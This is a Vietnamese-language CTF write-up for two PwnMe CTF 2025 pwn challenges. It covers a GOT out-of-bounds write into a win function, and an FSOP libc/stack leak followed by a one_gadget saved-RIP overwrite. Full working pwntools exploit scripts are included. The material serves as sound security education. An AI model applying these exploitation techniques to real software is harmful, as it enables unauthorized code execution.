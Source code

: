 ```yaml
--- 
title: PwnMe CTF Quals 2025
date: 2025-02-16 
description : 'PWNME-2025'
tags: ['pwn','writeup']
author: ['kuvee']
draft: false
---
```


## got

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/got/got$ checksec got
[*] '/home/ploi/pwn/PwnMeCTF/got/got/got'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- main : chương trình rất đơn giản , đầu tiên ta sẽ được nhập 1 idx , tiếp sau đó là nhập dữ liệu vào ```PNJS[idx]```  và nó nằm tại ```0x0000000000404080``` 

```cs
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

- rõ ràng đây là 1 bài xảy ra bug ```oob``` , ta có thể ghi idx tiến đến got và ghi vào thứ gì đó để lấy shell và may mắn là có 1 hàm win

```cs
void __cdecl shell()
{
  system("/bin/sh");
}
```

exp: 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./got',checksec=False)

#p = process()
p = remote('got-4d27ff88d1920941.deploy.phreaks.fr',443,ssl=True)

p.sendline(b'-4')
input()
p.send(p64(0x401036) + p64(exe.sym.shell))

p.interactive()
```

## einstein

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/einstein/einstein$ checksec einstein
[*] '/home/ploi/pwn/PwnMeCTF/einstein/einstein/einstein'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- handle: đây là hàm chứa dữ liệu chính cần khai thác của bài , đập vào mắt đầu tiên có lẽ là ta có 2 lệnh scanf -> ta có thể ghi tùy ý 2 lần 


```cs
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  void *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, (char *)allocated + offset, 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

- và bài này hốc búa ở chỗ là ta không biết bất cứ địa chỉ nào -> sẽ không thể ghi được gì , tuy nhiên để ý lại đoạn ở trên , ta được nhập 1 size và malloc(size) 
- tiếp theo ta được input vào 0x22 vào chunk đó , ở đây ta cần biết khi ta nhập 1 size lớn -> nó sẽ dùng mmap để tạo 1 vùng nhớ cho yêu cầu của malloc() , và vùng nhớ đó nằm dưới ngay libc

- ở đây mình nhập 1 size rất lớn

![here](/assets/images/PWNme2025/1.png)

- và nó nằm ngay dưới libc

![here](/assets/images/PWNme2025/2.png)

- như ta đã nói thì trước hết ta cần biết địa chỉ libc , ở đây ta cần tấn công ```fsop``` , chi tiết thì ta có thể xem ở [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive/)  , ở đây mình chọn overwrite ```IO_write_PTR``` bằng byte ```\xff```  hoặc là ta có thể overwrite như link trên cũng được , và may mắn là ta có libc lẫn stack_address  
- lúc đầu mình không leak được stack_address vì phiên bản libc bài cho không giống sever , sau khi build docker và lấy libc lại thì mới leak được stack :)))

- cuối cũng đơn giản là overwrite ```saved_rip``` thành one_gadget thôi , ta có 2 lần ghi nên ta có thể làm cho nó thõa mãn điều kiện của one_gadget

- ở đây mình chọn cái này : 

rax NULL sẵn và ta chỉ cần setup cho ```rbp-0x78``` thôi là được

```cs
0xeb66b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./einstein_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'How long is your story ?\n', str(0x50000).encode())


p.sendlineafter(b"What's the distortion of time and space ?\n", str(0x253790+0x28).encode())


input()
p.sendafter(b'.\n', b'\xff')

p.recv(5)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'libc leak: {hex(libc_leak)}')
p.recv(0x92)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak_stack: {hex(leak_stack)}')
saved_rip = leak_stack - 0x120
log.info(f'saved_rip: {hex(saved_rip)}')
libc.address = libc_leak - 0x2008f0
log.info(f'libc: {hex(libc.address)}')
rbp = saved_rip + 8
og = [0xeb66b,0xeb60e,0x54f53,0x54f4c]

p.sendlineafter(b'Everything is relative... Or is it ???',str(int(saved_rip)) + ' ' + str(int(libc.address+og[0])))
input()
p.sendline(str(int(rbp-0x78)) + ' ' + str(int(0)))

p.interactive()
```